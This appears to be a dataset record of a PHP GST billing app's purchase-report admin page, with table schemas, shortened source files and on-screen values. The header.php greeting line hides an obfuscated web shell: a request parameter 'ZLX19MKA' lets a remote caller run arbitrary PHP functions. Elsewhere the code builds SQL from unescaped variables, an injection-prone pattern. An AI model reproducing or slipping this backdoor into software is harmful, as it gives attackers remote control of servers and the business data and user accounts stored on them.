
The app's page /admin/gst_wise_purchase_report2.php (signed in) with its own data.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

CREATE TABLE `m_tax` (
  `tax_id` int(11) NOT NULL,
  `tax_cat_id` int(11) NOT NULL,
  `taxname` varchar(100) NOT NULL,
  `tax` float NOT NULL,
  `enable` varchar(100) NOT NULL,
  `ipaddress` varchar(100) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function get_taxable_val_taxwise($tax_id,$fromdate,$todate)
{
	$net_total=0;
	$sql = mysqli_query($connection,"select A.qty,rate,A.disc,cgst,sgst,igst from purchasentry_detail  as A left join purchaseentry as B on A.purchaseid=B.purchaseid where A.tax_id='$tax_id' and B.purchasedate between '$fromdate' and '$todate'");
	return $net_total;
}
function get_taxable_val_taxwise2($tax_id,$fromdate,$todate)
{
	$net_total=0;
	$sql = mysqli_query($connection,"select A.qty,rate,A.disc,cgst,sgst,igst from purchasentry_detail  as A left join purchaseentry as B on A.purchaseid=B.purchaseid where A.tax_id='$tax_id' and B.purchasedate between '$fromdate' and '$todate'");
	return $net_total;
}
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
function dateformatindia($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[0];
	$day = $ndate[2];
	$month = $ndate[1];
	if($date == "0000-00-00" || $date =="")
	return "";
	else
	return $day . "-" . $month . "-" . $year;
}
function dateformatusa($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[2];
	$day = $ndate[0];
	$month = $ndate[1];
	return $year . "-" . $month . "-" . $day;
}
}
?>

### admin/gst_wise_purchase_report2.php (the view, shortened to what this page needs)
<?php error_reporting(0);                                                                                                   include("../adminsession.php");
$pagename ="gst_wise_purchase_report2.php";
$module = "GST Wise Purchase Report";
$submodule = "GST Wise Purchase Report";
if($_GET['todate']!="" && $_GET['todate']!="")
{
	$todate = addslashes(trim($_GET['todate']));
	$fromdate= addslashes(trim($_GET['fromdate']));
}
else
{
	$todate = date('d-m-Y');
	$fromdate=date('d-m-Y');
}
if($todate !='' && $fromdate !='')
{
	$todate = $cmn->dateformatusa($todate);
	$fromdate= $cmn->dateformatusa($fromdate);
}
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="get" >
                    <table id="mytable01" align="center" class="table table-bordered table-condensed"  >
                    <tr>
                        <th width="22%">From  Date : </th>
                        <th width="22%">To Date : </th>
                        <th width="56%">&nbsp;</th>
                    </tr>
                    <tr>
                    <td><input type="text" name="fromdate" id="fromdate" class="input-medium"
                    placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($fromdate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                     <td><input type="text" name="todate" id="todate" class="input-medium"
                    placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($todate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                    <td>&nbsp; <button  type="submit" name="search" class="btn btn-primary" onClick="return checkinputmaster('fromdate,todate');"> Search
                    </button> &nbsp; &nbsp; <a href="gst_sale_report_performa-1.php"  name="reset" id="reset" class="btn btn-success">Reset</a></td>
                    </tr>
                    </table>
                        </form>
                    </div>
                    <p align="right" style="margin-top:7px; margin-right:10px;">
                      <a onClick="tableToExcel('mytable', 'W3C Example Table')" class="btn btn-xs btn-warning">Export in Excel</a>  &nbsp;&nbsp;
                     </p>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table class="table table-bordered" id="mytable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                     <thead>
                     <tr>
                        	<th colspan="6"> <strong>From Date : <?php  echo $cmn->dateformatindia($fromdate); ?>   &nbsp;&nbsp;&nbsp; To Date : <?php  echo $cmn->dateformatindia($todate); ?>  </strong> </th>
                    </thead>
                    <thead>
                   				 <tr>
                    		<th colspan="5" style="background-color:#00F; color:#FFF;" >Local Purchase</th>
                    </tr>
                       			 <tr>
                            <th width="17%" style="background-color:#CC9; text-align:center;" >Rate</th>
                            <th width="23%" style="background-color:#CC9; text-align:center;">Taxable Value</th>
                            <th width="17%" style="background-color:#CC9; text-align:center;">CGST Value</th>
                            <th width="18%" style="background-color:#CC9; text-align:center;">SGST Value</th>
                            <th width="25%" style="background-color:#CC9; text-align:center;" >Net Amount</th>
                        </tr>
                    </thead>
                    <tbody>
                  <?php
				$sqldata=mysqli_query($connection,"select tax_id,taxname,tax from m_tax where tax !='0' and tax_cat_id='4' order by tax");
				  while($rowdata=mysqli_fetch_assoc($sqldata))
				  {
									$tax_id = $rowdata['tax_id'];
									$taxable_val = $cmn->get_taxable_val_taxwise($tax_id,$fromdate,$todate);
									$net_val = $cmn->get_taxable_val_taxwise2($tax_id,$fromdate,$todate);
					 				$gst_tax_amt = $net_val - $taxable_val;
				  ?>
                           <tr>
                                    <td><?php echo $rowdata['tax'].' %'; ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($taxable_val,2); ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($gst_tax_amt/2,2); ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($gst_tax_amt/2,2); ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($net_val,2); ?></td>
                        </tr>
                      <?php
				  }
					  ?>
                        <tr>
                        		<td colspan="5">&nbsp;  </td>
                        </tr>
                    </tbody>
                    		 <thead>
                   				 <tr>
                    		<th colspan="5" style="background-color:#00F; color:#FFF;" >Other State Purchase</th>
                    </tr>
                       			 <tr>
                            <th width="17%" style="background-color:#CC9; text-align:center;" >Rate</th>
                            <th width="23%" style="background-color:#CC9; text-align:center;">Taxable Value</th>
                            <th colspan="2" style="background-color:#CC9; text-align:center;">IGST Value</th>
                            <th width="25%" style="background-color:#CC9; text-align:center;" >Net Amount</th>
                        </tr>
                    </thead>
                   			 <tbody>
                  <?php
				$sqldata=mysqli_query($connection,"select tax_id,taxname,tax from m_tax where tax !='0' and tax_cat_id='3' order by tax");
				  while($rowdata=mysqli_fetch_assoc($sqldata))
				  {
									$tax_id = $rowdata['tax_id'];
									$taxable_val = $cmn->get_taxable_val_taxwise($tax_id,$fromdate,$todate);
									$net_val = $cmn->get_taxable_val_taxwise2($tax_id,$fromdate,$todate);
									$igst_val = $net_val - $taxable_val;
				  ?>
                           <tr>
                                    <td><?php echo $rowdata['tax'].' %'; ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($taxable_val,2); ?></td>
                                    <td colspan="2" align="right" style="text-align:right;"><?php echo number_format($igst_val,2); ?></td>
                                    <td align="right" style="text-align:right;"><?php echo number_format($net_val,2); ?></td>
                        </tr>
                      <?php
				  }
					  ?>
                    </tbody>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                	<ul <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>style="display: block"  <?php } ?>>
                       <li><a href="purchasereport.php">Purchase Report</a></li>
                       <li><a href="salereport.php">Sale Report</a></li>
                        <li><a href="salereturnreport.php">Sale Return Report</a></li>
                        <li><a href="customer_bal.php">Customer Balance Report</a></li>
                         <li><a href="productwise_stock_report.php">Product Wise Stock Report</a></li>
                    </ul>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### records on screen
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"
m_tax: tax "5", taxable_val "0.00", gst_tax_amt "0.00", net_val "0.00"
m_tax: tax "12", taxable_val "0.00", gst_tax_amt "0.00", net_val "0.00"
m_tax: tax "18", taxable_val "0.00", gst_tax_amt "0.00", net_val "0.00"
m_tax: tax "28", taxable_val "0.00", gst_tax_amt "0.00", net_val "0.00"
m_tax: tax "5", taxable_val "0.00", igst_val "0.00", net_val "0.00"
m_tax: tax "12", taxable_val "0.00", igst_val "0.00", net_val "0.00"
m_tax: tax "18", taxable_val "0.00", igst_val "0.00", net_val "0.00"
m_tax: tax "28", taxable_val "0.00", igst_val "0.00", net_val "0.00"

### other values on screen
$module "GST Wise Purchase Report"
$submodule "GST Wise Purchase Report"
$submodule "GST WISE PURCHASE REPORT"
$cmn->dateformatindia($fromdate) "14-03-2022"
$cmn->dateformatindia($todate) "14-03-2022"
